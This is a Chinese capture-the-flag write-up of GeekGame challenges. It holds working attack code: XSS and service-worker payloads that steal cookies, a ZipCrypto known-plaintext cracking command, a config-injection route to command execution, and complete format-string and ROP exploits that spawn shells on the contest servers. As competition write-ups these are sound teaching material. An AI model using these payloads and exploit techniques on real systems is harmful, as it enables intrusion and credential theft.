# Writeup by gzz

## 一眼盯帧

实在不知道该写什么题解。那就说说我怎么差了20秒没抢到一血的故事：

我一进来就光速把那个题面里的“恭喜你  发现了签到题”gif拖下来，然后一通抽帧 binwalk，一无所获后才逐渐发现不对劲了。此时我才发现这题居然还有个题目附件，可是为时已晚。此所谓欲速则不达。


## 小北问答

1. 直接搜题面就可以找到一个[博客](https://blog.csdn.net/Kangyucheng/article/details/104858780)里面就有sbatch的用法。
2. 搜一搜就可以找到[这个](https://github.com/MiCode/Xiaomi_Kernel_OpenSource)repo，里面点进k60 ultra对应文件夹下的[Makefile](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/blob/corot-t-oss/Makefile)前面就写了版本号。
3. 搜一搜就可以找到这个[博客](https://blog.csdn.net/qq_19926599/article/details/86747401)。
4. ~~没做出来，身败名裂。一开始看到.{1,20}以为是0，后来以为是\n所以是1，后来才发现屏蔽了一些unicode可是或许又因为版本问题搞错了。~~
5. 一年一度的[考古](https://web.archive.org/web/20110206221536/http://bilibili.us/video/game.html)。需要知道b站曾经使用的域名是bilibili.us，而不是.com。
6. 在chrome中右键，使用google搜索图片，就找到了。远处那辆车上写的域名国别可以帮助确认。


## Z 公司的服务器

搜索服务端返回的字符串`*B00000000000000`，可以知道这是zmodem协议。

第一题我们只需要模仿着给服务器一个`r.send(b'**\x18B0100000063f694\x0a')`和`r.send(b'**\x18B0900000000a87c\x0a\x0a')`即可收到服务器发来的包含flag的响应。

第二题需要知道zmodem如何编码文件。从头学这个协议或许有点太复杂了，可以参考[这个](https://blog.csdn.net/alpbrook/article/details/123275755)写的非常详细的博客。总之需要知道，0x18用来转义下一个字符^0x40，中间还会出现crc校验（0x18 0x69开头，接四个字节，也可能有转义），最终0x2a 0x18 0x43结束。代码：

```python
while i < len(bs):
    if bs[i:i+3] == [0x2a, 0x18, 0x43]:
        print('stopped at', i)
        break
    if bs[i] == 0x18:
        if bs[i + 1] == 0x69:
            i += 2
            for j in range(4):
                if bs[i] == 0x18: i += 2
                else: i += 1
            continue
        result.append(bs[i + 1] ^ 0x40)
        i += 2
    else:
        result.append(bs[i])
        i += 1
```


## 猫咪状态监视器

service只是去`/etc/init.d`下面调用对应的命令。所以加几个`../..`就可以随便乱跑了。不过我自己ubuntu 22.04的service并不能这样，所以我一开始没想得这么简单。还是要老老实实搭题目的环境。


## 基本功

ZipCrypto是一个死透了的加密算法，已知12字节的明文攻击就可以秒出key，无需字典爆破。推荐用[bkcrack](https://github.com/kimci86/bkcrack)工具。

第一题里面包了一个chromedriver，这个可以配合文件大小字节数找到它实际上是[chrome 89](https://chromedriver.storage.googleapis.com/89.0.4389.23/chromedriver_linux64.zip)版本的，于是可以直接下载下来使用。

第二题是个wireshark封包，[这个pcapng格式](https://pcapng.com/)有很多固定位置文件头是确定的，能够找到一段8字节和一段4字节，这就满足攻击算法的条件了。不过据说直接这样跑需要一个小时。我发现我这边的pcapng一般section length都是ff，所以我也猜了一下。这样只需要半分钟就可以搜出来。

```sh
./bkcrack-1.5.0-Linux/bkcrack -C challenge_2.zip -c flag2.pcapng -x 0 0a0d0d0a -x 8 4d3c2b1a01000000ffffffffffffffff
```


## Dark Room

只做出flag1。玩过emacs的dunnet，所以看到文字类冒险游戏感到非常亲切。这里手玩一下拿到两个钥匙就可以出去，由于没有存档，记录一下操作过程用pwntools帮我们恢复上次的进度。问题在sanity需要足够高，这里整个通关过程消耗的sanity是不会变的，用通关过程中的latte和trinket（记得戴上）可以提升一点但还不够。所以就要跑脚本尝试help了，直到某次比较幸运，比如连续四次help都加了sanity，就能凑够了。

（第二问咋做呀？报错的代码只有那几行，还没看懂它在干啥..


## Emoji Wordle

每次访问，placeholder都会给我们随机64个emoji，可以跑它一百次获得全部emoji的集合备用，发现只有128种。

```python
import requests
import time

def get_one_set_random():
    time.sleep(1)
    r = requests.get('https://prob14.geekgame.pku.edu.cn/level1')
    r = r.content.decode('utf-8')
    t = r[r.find('placeholder') + 13:]
    t = t[:t.find('"')]
    print(t)
    assert len(t) == 64
    return list(t)

cur_set = set()

for i in range(100):
    t = get_one_set_random()
    for emoji in t:
        cur_set.add(emoji)
    print(i, ', cur set len:', len(cur_set))

with open('all_emojis.txt', 'w') as f:
    f.write(''.join(cur_set))
```

事实上第二题最简单，因为它把整个服务端答案都存进jwt了，base64 decode一下直接交上去就好。

第一题就直接爆破。第三题，尝试次数也是存进jwt里的，复用之前的cookie也就可以爆破。

```python
import requests
import time

with open('all_emojis.txt') as f:
    emojis = list(f.read())

def give_try(s):
    r = requests.get('https://prob14.geekgame.pku.edu.cn/level1',
                     params={'guess': s})
    r = r.content.decode('utf-8')
    t = r[r.find('results.push') + 14:]
    t = t[:t.find('"')]
    print(t)
    assert len(t) == 64
    return t

def get_sess():
    r = requests.get('https://prob14.geekgame.pku.edu.cn/level3')
    print(r.cookies['PLAY_SESSION'])
    return r.cookies['PLAY_SESSION']

def give_try3(s, sess):
    r = requests.get('https://prob14.geekgame.pku.edu.cn/level3',
                     params={'guess': s},
                     cookies={'PLAY_SESSION': sess})
    r = r.content.decode('utf-8')
    print(r)
    t = r[r.find('results.push') + 14:]
    t = t[:t.find('"')]
    print(t)
    assert len(t) == 64
    return t

sess = get_sess()
#exit()

result = [None] * 64
for e in emojis:
    print('trying ', e) #, 'cur', ''.join(str(s) for s in result)
    time.sleep(0.1)
    t = give_try3(''.join(e if r is None else r for r in result), sess)
    for i in range(64):
        if result[i] is None and t[i] == '🟩':
            result[i] = e

print(''.join(str(s) for s in result))
```


## 第三新XSS

题目允许我们自己注册形如`/{custom}/*`的返回内容和响应头。两题种xssbot的行为分别是：

1. http协议。访问`/admin/`并在cookie里存下指定`/admin/`path的flag。然后访问我们给出的地址。最终把我们地址的title给出来。
2. https协议。先访问我们给出的地址，再访问`/admin/`并放cookie。最终把admin地址的title给出来。

第一题只需要内嵌一个`/admin/`的iframe并用contentWindow取出来就行。

```html
<marquee>Hello World!</marquee><iframe src="/admin"></iframe>
<script>setTimeout(() => { document.title = document.querySelector('iframe').contentWindow.document.cookie; }, 200); </script>
```

第二题由于访问admin在后，我们为了改变admin页的行为就需要拦截网页请求。这正是这题为什么用https，因为https下才能用service worker。在我们给出的地址中注册一个service worker，用它来拦截所有后续的请求并替换成我们的网页内容即可。但是这里有一个坑，就是service worker的拦截请求功能只能接管自己js所在目录的子目录（即scope），而`/xx`的请求会被跳转到`/xx/`，作为service worker js这种跳转也是不被浏览器接受的。好在，本题我们可以控制响应头，只需要添加`Service-Worker-Allowed: /`就可以之后把service worker注册到全局。

```json
{"Content-Type": "text/javascript", "Service-Worker-Allowed": "/"}
```

```js
self.addEventListener('install', (event) => {
  console.log('install');
  self.skipWaiting();
});
self.addEventListener('activate', (event) => {
  console.log('activate')
  self.clients.claim();
});
self.addEventListener('fetch', function (event) {
    console.log('fetching',event.request);
    event.respondWith(
      new Response("<script>setInterval(()=>{document.title=document.cookie;},100);</script>", {
        headers: {'Content-Type': 'text/html'}
      })
    );
});
```

```html
<marquee>Hello World SW!</marquee>
<script>
        navigator.serviceWorker.register('/swjs222/index.js', { scope: '/' })
          .then(reg => {
            console.log(reg)
          })
</script>
```


## 简单的打字稿

TypeScript支持把字符串字面量定义为类型，也可以在编译期在字符串字面量类型上做[模板匹配](https://www.typescriptlang.org/docs/handbook/2/template-literal-types.html)：这其实已经让我们能够对任意一个猜测的字符串，判断“它是不是给定flag类型的前缀”。

```typescript
type falg2 = `f${string}`;
function a(p: falg2) {return p;}
function b(p: flag1) {a(p);}
```

如上的代码能通过编译，当且仅当`f`是flag1的前缀。因此我们可以直接一位一位地尝试猜测，写个脚本就行。

对于第二题，flag2被层层包裹在一堆复杂的类型里。这里我们先用各种[utility types](https://www.typescriptlang.org/docs/handbook/utility-types.html)来抽丝剥茧一下。

- 初始`object | { new (): { v: () => (a: (a: unknown, b: { 'flag{...}': never } & Record<string, string>) => never) => unknown } }`
- 用`Extract<..., new () => {}>` 就可以得到 `new (): { v: () => (a: (a: unknown, b: { 'flag{...}': never } & Record<string, string>) => never) => unknown }`
- 继续用`InstanceType<..., >['v']`可以得到`() => (a: (a: unknown, b: { 'flag{...}': never } & Record<string, string>) => never) => unknown`
- 继续用`ReturnType<...>`然后再用`Parameters<...>[0]` 然后再用`Parameters<...>[1]`可以得到`{ 'flag{...}': never } & Record<string, string>`

然后到这里，其实就卡住了。用keyof只能得到string。也没有好办法去去除掉后面的&Record。怎么办呢？其实我们的目标是找到这个type的“必需属性”，上网搜索可以找到更多的[typescript模板黑魔法](https://stackoverflow.com/questions/52984808/is-there-a-way-to-get-all-required-properties-of-a-typescript-object)。其中一个稍加修改以后是这样的：

```typescript
type GetRequiredKeys3<T> = {[K in keyof T as (T[K] extends never ? K : never)]: T[K]}
```

用`keyof GetRequiredKeys3<...>`就可以最终完全取出flag这个字符串。完整的代码大概长这样：

```typescript
// type flag2 = object | { new (): { v: () => (a: (a: unknown, b: { 'fake2': never } & Record<string, string>) => never) => unknown } };

// internal is type { 'fake2': never } & Record<string, string>
type internal = Parameters<Parameters<ReturnType<InstanceType<Extract<flag2, new () => {}>>['v']>>[0]>[1];
type GetRequiredKeys3<T> = {[K in keyof T as (T[K] extends never ? K : never)]: T[K]}
// falg2_real is 'fake2'
type falg2_real = keyof GetRequiredKeys3<internal>;
type falg2try = `f${string}`;

function f1(p: falg2try) {p}
function f2(p: falg2_real) {f1(p)}
```

批量尝试的脚本也非常好写。

```js
async function main() {
  // let f = 'flag{tOo0_E4sY_f1aG_foR_ToOo_eAsy_laNg';
  let f = 'flag';
  
  while(1) {
    for(let i = 32; i < 126; ++i) {
      let c = String.fromCharCode(i);
      // await new Promise(res => setTimeout(res, 11000));
      if(c == '`' || c == '"' || c == '\\') continue;
      let f1 = f + c;
      console.log(f1);
      let r = await test2(f1);
      if(r.output.startsWith('Process exited with code 0')) {
        f = f1;
        break;
      }
    }
  }
}
```


## 非法所得

这是本次我唯一拿到的解题先锋奖，也是我少有的一看到就知道怎么做的题。无他，我早就听说过clash for windows的那个xss（

先说flag2这个不需要xss的。题目给了我们导入任意代理配置的能力，要我们自己仿造一个`ys.pku.edu.cn`。这里我们要知道clash的配置文件是支持设置hosts的，我们自己动手架一个80端口的服务器，给它交一个把ys.pku.edu.cn指向我们服务器地址的配置即可。服务器可以这么写：

```html
<title>摆京带学原神学院</title>
<h1 id="hello"></h1>

<input type="password" id="primogem_code" onchange="document.getElementById('hello').innerText = document.getElementById('primogem_code').value;" onkeypress="document.getElementById('hello').innerText = document.getElementById('primogem_code').value;" />
```




另外两个就需要在配置文件里做注入了。事实上对我来说flag3反而更简单一些。github issue里的[poc](https://github.com/Fndroid/clash_for_windows_pkg/issues/2710)甚至已经弹计算器了，我们稍加修改，就可以运行readflag，把结果的stdout alert出来就行。



flag1需要读配置文件。我猜官方的意思是想办法让clash自己导入这个文件，然后去界面里看。但我们都能运行任意命令了，直接cat就好了。可是我没注意到`cat /app/profiles/flag.yml`里又是斜杠又是空格的，都需要转义，实测逗号也不能用，最终只有这样才可以：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: 
    type: select
    proxies:
    - a
```




## 汉化绿色版免费下载

只做出flag1。用binwalk直接解包xp3，就可以获得游戏的代码。或者后来发现还有专门解包xp3的工具。

flag2我看到是个RK hash，但是解出来一大堆解，不会了。


## 初学 C 语言

现学[format string利用](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)。

首先在栈中找到两个基准的数字，获得栈的基址和程序段的基址，这里我选的就是publics的位置（`%3$lx`）和从test返回到main的ret的位置（`%165$lx`）。之后的所有地址都要根据这两个基址换算一下。

然后我们就可以用ctf wiki教我们的技巧，做任意地址写了。因为本题限制了输出长度不能太长，我们一次只写一个字节，大概结构就是`%111c%222$hhn`这样。

用任意地址写 配合ROPgadget来构造execve syscall即可弹shell。

```python
import os
from pwn import *

p = remote('prob09.geekgame.pku.edu.cn', 10009)
print(p.recv())
p.send(b'1028:MEUCICxMvhT6LqfaBQVlVes6jggfPmSUUQI0e8YP4ibd7XNbAiEAu_YOxkt9PkQsDNSHz53vvMKnJ6CFmwfdZQF_NnxyIkw=\n')

p.recvuntil(b'Please input your instruction:\n')
p.send(b'%3$lx=publics;%165$lx=ret\n')

# stack relative.
addr_publics = int(p.recvuntil(b'=publics;', drop=True), 16)
info('addr_publics %x', addr_publics)
addr_format_buf = addr_publics - 0x7ffd8bbe0620 + 0x7ffd8bbe06a0
info('addr_format_buf %x', addr_format_buf)
addr_rsp = addr_format_buf - 0x00007ffe38b38ac0 + 0x00007ffe38b389d8
info('addr_rsp %x', addr_rsp)
addr_ptr_rettest = addr_rsp + 1280
first_format_as_param = 34  # offset of format string

# code relative.
# on our test run at printf frame, $rsp=0x7ffff9d30798
# then, the ret to main is on stack 0x7ffff9d30c98  ($rsp+1280 (160*8))
# %6$ outputs $rsp+8, so %165 outputs $rsp+1280.
# after call test.
# hexdump byte $rsp+1280 --size 8 --reverse
addr_rettest = int(p.recvuntil(b'=ret\n', drop=True), 16)
info('addr_rettest %x', addr_rettest)
# after call printf. <+529>:   mov    DWORD PTR [rbp-0x4dc],eax
addr_retprintf = addr_rettest - 0x7f28392e23fd + 0x7f28392e234a
info('addr_retprintf %x', addr_retprintf)
addr_codebase = addr_retprintf - 0x7fe2e98d234a + 0x7fe2e98d1000
info('addr_codebase %x', addr_codebase)

addr_gadget_base = addr_codebase - 0x9000
addr_poprdi_ret = addr_gadget_base + 0x0000000000009cd2
addr_poprsi_ret = addr_gadget_base + 0x000000000001781e
addr_poprdx_ret = addr_gadget_base + 0x0000000000009bdf
addr_poprax_ret = addr_gadget_base + 0x000000000005a777
addr_syscall = addr_gadget_base + 0x0000000000009643

def write_mem_byte(addr, value):
    assert value in range(256)
    base_payload = (b'' if value == 0 else b'%%%dc' % value)
    base_payload = base_payload + b'%%%d$hhn' % 36
    while len(base_payload) < 16:
        base_payload += b'='
    payload = base_payload + p64(addr) + b'\n'
    print(payload)
    p.recvuntil(b'Please input your instruction:\n')
    p.send(payload)
    # p.recvuntil(b'DONE.\n') # will not work as addr contains \x00

def write_mem_ptr(addr, value):
    info('write memory addr %x with %x', addr, value)
    for i in range(8):
        write_mem_byte(addr + i, value % 256)
        value >>= 8

rop = [addr_poprdi_ret, addr_format_buf + 10,
       addr_poprax_ret, 0x3b,
       addr_poprsi_ret, 0,
       addr_poprdx_ret, 0,
       addr_syscall]

for (i, v) in enumerate(rop):
    write_mem_ptr(addr_ptr_rettest + 8 * i, v)

p.recvuntil(b'Please input your instruction:\n')
p.send(b'exit, but /bin/sh\x00\n')

p.interactive()
```


## Baby Stack

保姆级的ROP教程。

第一题里有个backdoor，调用就可以获得shell。地址固定0x4011b6，算好返回地址的offset一路写过去。不过注意需要用一个单独的ret来配平一下栈顶的对齐。



```python
import os
from pwn import *

libc_binary = ELF('./libc.so.6', checksec=False)
ld_binary = ELF('./ld-linux-x86-64.so.2', checksec=False)
challenge1_binary = ELF('./challenge1')

# align the rsp to avoid error: https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul
addr_ret = 0x40101a
addr_backdoor = 0x4011b6

p = remote('prob10.geekgame.pku.edu.cn', 10010)
print(p.recv())
p.send(b'1028:MEUCICxMvhT6LqfaBQVlVes6jggfPmSUUQI0e8YP4ibd7XNbAiEAu_YOxkt9PkQsDNSHz53vvMKnJ6CFmwfdZQF_NnxyIkw=\n')

p.recvuntil(b'input the size of your exploitation string:(less than 100 chars with the ending \\n or EOF included!)\n')

stack_offset = 0x00007ffc786d5138 - 0x00007ffc786d50c0

p.send(b'0\n')

p.recvuntil(b'please input your string:\n')
p.send(b'z' * stack_offset + p64(addr_ret) + p64(addr_backdoor) + b'haha\n')

p.interactive()
```


第二题挺有意思的，没有backdoor了，因此我们只能去libc里找东西用。



我一开始没有注意到这里面有printf可以像上一题一样做format string leak（或者潜意识觉得一场比赛不可能连续两题一样。。）于是这里就非预期了起来。

libc就需要有libc基址才行。泄露libc基址可以用libc_start_main的got表项。而这需要我们把这个内存的内容想办法打出来。我们可以用printf或者puts来输出，但这需要我们设置%rdi（第一个参数）的值。然而难办的是，我们这个小的challenge2 binary里并没有直接帮我们设置%rdi的gadget。

天无绝人之路的是：



虽然不能只控制rdi，但main函数里有从rbx里取rdi并直接调用puts的代码片段



并且我们有控制rbx, rbp, r12的gadget。也就是说我们可以先存下rbx，再跳到main中间0x4012e3让它打出rbx对应地址的内容。完成这一切后我们再第三次跳回main，此时我们已经有了libc基址，可以调用system了。

总结一下就是进了三次main，第一次在栈上留下「pop rbx gadget; libc_start_main got; dummy; dummy; ret to middle of main (0x4012e3); .... ; ret to main」，第二次得到基址，第三次在栈上留下「ret; ret rdi (in libc); binsh (in libc); ret to libc system」，第三次返回以后就可以拿到shell了。

```python
import os
from pwn import *

libc_binary = ELF('./libc.so.6', checksec=False)
ld_binary = ELF('./ld-linux-x86-64.so.2', checksec=False)
challenge2_binary = ELF('./challenge2')

puts_plt = challenge2_binary.plt['puts']
libc_start_main_got = challenge2_binary.got['__libc_start_main']
main = challenge2_binary.symbols['main']

p = remote('prob11.geekgame.pku.edu.cn', 10011)
print(p.recv())
p.send(b'1028:MEUCICxMvhT6LqfaBQVlVes6jggfPmSUUQI0e8YP4ibd7XNbAiEAu_YOxkt9PkQsDNSHz53vvMKnJ6CFmwfdZQF_NnxyIkw=\n')

# just an example run to deduce offsets..
tmp_addr_buf2 = 0x00007fff2c3d4810  # what will you do
tmp_addr_buf1 = 0x00007fff2c3d4850  # flag again.
tmp_addr_ret = 0x00007fff2c3d4888

gadget_poprbxrbpr12 = 0x401300
#  midmain_printf = 0x401276  # will crash before final rop. alas.
midmain_puts = 0x4012e3
gadget_singleret = 0x401304

p.recvuntil(b'please enter your flag~(less than 0x20 characters)\n')
p.send(b'skipthis.\n')
p.recvuntil(b'What will you do to capture it?:\n')
p.send(b'skipthis.\n')
info('leaking base..')
p.recvuntil(b'\n and your flag again? :')
p.send(b'z' * (tmp_addr_ret - tmp_addr_buf1)
       + p64(gadget_poprbxrbpr12)
       + p64(libc_start_main_got) + p64(0) + p64(0)
       + p64(midmain_puts) + b'\n')
# we in theory should add address back to main at some place,
# however, even we did not do so, in reality it jumps back to some
# random place in libc main and gets back to main successfully..
p.recvuntil(b'go0d_j0b_und_go0d_luck~:)\n')

libc_start_main_addr = p.recvuntil(b'\ngo0d_j0b_und_go0d_luck~:)\n', drop=True)
print(libc_start_main_addr)
libc_start_main_addr = u64(libc_start_main_addr + b'\x00' * (8 - len(libc_start_main_addr)))
info('libc_start_main %x', libc_start_main_addr)

libc_base = libc_start_main_addr - 0x7f0a4a1c7dc0 + 0x00007f0a4a19e000
info('libc_base %x', libc_base)
libc_system = libc_base - 0x00007f0a4a19e000 + 0x7f0a4a1eed60
libc_retrdi = libc_base + 0x000000000002a3e5
libc_binsh = libc_base + 0x00000000001d8698

info('final exploiting')

p.recvuntil(b'please enter your flag~(less than 0x20 characters)\n')
p.send(b'skipthis.\n')
p.recvuntil(b'What will you do to capture it?:\n')
p.send(b'skipthis.\n')
p.recvuntil(b'\n and your flag again? :')
p.send(b'z' * (tmp_addr_ret - tmp_addr_buf1) + p64(gadget_singleret) + p64(libc_retrdi) + p64(libc_binsh) + p64(libc_system) + b'\n')

p.interactive()
```


## 绝妙的多项式

拖进ghidra看看。第一题：



这里面的mint，网上查一查发现就是封装了一个模意义下加减乘法的int，模数在程序里一看，woc，998244353。此时我开始有些不祥的预感。

然后这段程序本身很简单，伪代码：

``` c
for(int i = 1; i <= 36; ++i) {
int acc = 0, mul = 1;
for(int j = 0; j < 36; ++j) {
acc += flag[j] * mul;
mul *= i;
}
check(acc == results[i - 1]);
}
```

给flag的字符作用了一个（1,2,...,36）的范德蒙矩阵。所以我们只需要求这个范德蒙矩阵的逆。我高代已经忘得差不多了，居然忘记范德蒙矩阵是可以直接写出逆的了。但我还记得模意义下的高斯消元求逆，用python写了一下：

```python
mod = 998244353

def pow(a, p):
    r = 1
    while p:
        if p & 1: r = (r * a) % mod
        a = (a * a) % mod
        p >>= 1
    return r

def inverse(a):
    return pow(a, mod - 2)

def matmul(a, b):
    assert len(a[0]) == len(b)
    n = len(a)
    K = len(a[0])
    m = len(b[0])
    return [[sum(a[i][k] * b[k][j] for k in range(K)) % mod for j in range(m)] for i in range(n)]

def matinverse(mat):
    mat = copy.deepcopy(mat)
    n = len(mat)
    ret = [[1 if i == j else 0 for j in range(n)] for i in range(n)]
    for i in range(n):
        cinv = inverse(mat[i][i])
        assert cinv
        for k in range(n):
            mat[i][k] = (mat[i][k] * cinv) % mod
            ret[i][k] = (ret[i][k] * cinv) % mod
        for j in range(n):
            if i == j: continue
            t = mat[j][i]
            for k in range(n):
                mat[j][k] = (mat[j][k] - t * mat[i][k] % mod + mod) % mod
                ret[j][k] = (ret[j][k] - t * ret[i][k] % mod + mod) % mod
    return ret

van = [[(i + 1)**j % mod for j in range(36)] for i in range(36)]
vaninv = matinverse(van)
```

然后把题目里的常数数组拿出来乘一下就行了。

第二题：

